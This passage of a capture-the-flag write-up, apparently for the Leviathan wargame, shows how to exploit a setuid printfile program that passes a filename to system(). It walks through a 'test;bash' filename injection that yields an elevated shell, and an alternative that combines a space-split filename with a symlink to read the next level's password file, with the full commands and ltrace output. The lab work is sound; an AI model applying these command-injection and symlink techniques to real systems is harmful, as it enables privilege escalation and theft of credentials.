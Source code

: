 It seems like the script takes a filename as input and then calls ``access()`` to check if it has the permissions to read that file. Then, it creates a string using ``sprintf("/bin/cat %s", filename)`` and then elevates the id.

What if we create a new file as a string literal called ``"test;bash"`` to trick the system into running a fake command, then elevate itself and thereafter run bash?

```bash
leviathan2@leviathan:~$ mkdir /tmp/shiro
leviathan2@leviathan:~$ cd /tmp/shiro
leviathan2@leviathan:/tmp/shiro$ touch "test;bash"
leviathan2@leviathan:/tmp/shiro$ ls
test;bash
leviathan2@leviathan:/tmp/shiro$ ~/printfile "test;bash"
/bin/cat: test: No such file or directory
leviathan3@leviathan:~$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```

***Alternative Solution***

When we read the ``ltrace`` output, we realize that the ``/bin/cat`` command uses just the first part of the filename. Therefore, we can exploit this by creating a file that has a space in it to make the ``/bin/cat`` command read it as 2 separate files. Thereafter, we link the second file to the password location using a symbolic link ``ln -s <original file> <fake file>``

```bash
leviathan2@leviathan:~$ mkdir /tmp/shiro
leviathan2@leviathan:~$ echo "hi" >> /tmp/shiro/test.txt
leviathan2@leviathan:~$ ./printfile /tmp/shiro/test.txt
hi
leviathan2@leviathan:~$ ltrace ./printfile /tmp/shiro/test.txt
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/shiro/test.txt", 4)                                          = 0
snprintf("/bin/cat /tmp/shiro/test.txt", 511, "/bin/cat %s", "/tmp/shiro/test.txt") = 28
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
system("/bin/cat /tmp/shiro/test.txt"hi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 0
+++ exited (status 0) +++
leviathan2@leviathan:~$ echo "hi 2" >> /tmp/shiro/"test 2".txt # you can also do test\ 2.txt
leviathan2@leviathan:~$ ./printfile /tmp/shiro/"test 2".txt
/bin/cat: /tmp/shiro/test: No such file or directory
/bin/cat: 2.txt: No such file or directory
leviathan2@leviathan:~$ ltrace ./printfile /tmp/shiro/"test 2".txt
__libc_start_main(0x804852b, 2, 0xffffd764, 0x8048610 <unfinished ...>
access("/tmp/shiro/test 2.txt", 4)                                        = 0
snprintf("/bin/cat /tmp/shiro/test 2.txt", 511, "/bin/cat %s", "/tmp/shiro/test 2.txt") = 30
geteuid()                                                                 = 12002
geteuid()                                                                 = 12002
setreuid(12002, 12002)                                                    = 0
system("/bin/cat /tmp/shiro/test 2.txt"/bin/cat: /tmp/shiro/test: No such file or directory # we notice here that it tried to read a file called test but there is no such file (so let's link this to the password file)
/bin/cat: 2.txt: No such file or directory
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                    = 256
+++ exited (status 0) +++
leviathan2@leviathan:~$ ln -s /etc/leviathan_pass/leviathan3 /tmp/shiro/test
leviathan2@leviathan:~$ ./printfile /tmp/shiro/"test 2".txt
Ahdiemoo1j
/bin/cat: 2.txt: No such file or directory
```